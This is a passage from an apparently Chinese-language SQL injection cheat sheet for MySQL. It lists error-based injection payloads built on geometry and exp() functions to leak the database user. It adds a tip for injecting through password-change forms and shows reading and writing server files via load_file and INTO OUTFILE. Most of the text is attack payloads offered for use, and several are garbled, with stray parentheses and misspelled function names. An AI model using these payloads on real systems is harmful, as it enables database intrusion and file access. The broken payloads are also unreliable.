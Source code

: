 ```
6、通过exp报错,注入语句如下:
and exp(~(select * from (select user () ) a) );

7、通过GeometryCollection()报错,注入语句如下:
and GeometryCollection(()select *from(select user () )a)b );

8、通过polygon ()报错,注入语句如下:
and polygon (()select * from(select user ())a)b );

9、通过multipoint ()报错,注入语句如下:
and multipoint (()select * from(select user() )a)b );

10、通过multlinestring ()报错,注入语句如下:
and multlinestring (()select * from(selectuser () )a)b );

11、通过multpolygon ()报错,注入语句如下:
and multpolygon (()select * from(selectuser () )a)b );

12、通过linestring ()报错,注入语句如下:
and linestring (()select * from(select user() )a)b );
```

### 报错注入小技巧:

如果是在修改密码之类的界面,需要先输入用户名或者原密码的情况下,旧数据和新数据同时输入,有可能会出现不报错的情况,此时==可以尝试在输入旧数据的输入框输入正确的数据,在新数据输入框中猜测后端查询语句,并构造注入,有可能会爆出错误从而直接利用报错注入拿到数据!!!==

## 文件读写

### 读文件

select load_file("路径和文件名");
load data infile() ;

> load data infile 和 load data local infile ，不受 secure-file-priv 的限制 

### 写文件

```mysql
SELECT "123" INTO OUTFILE "c:/123.txt";
SELECT "123abc" INTO DUMPFILE "c:/123.txt";
```

注：dumpfile可以处理非可见字符。

要使用union查询写文件，不能使用and或者or拼接写文件

#### 条件

1. 绝对路径
2. `secure_file_priv `选项的值为空(my.ini文件中设置为`secure_file_priv=`
   默认是NULL，可以通过my.conf/my.ini文件mysqld一栏里进行配置，配置完成后，重启便会生效。

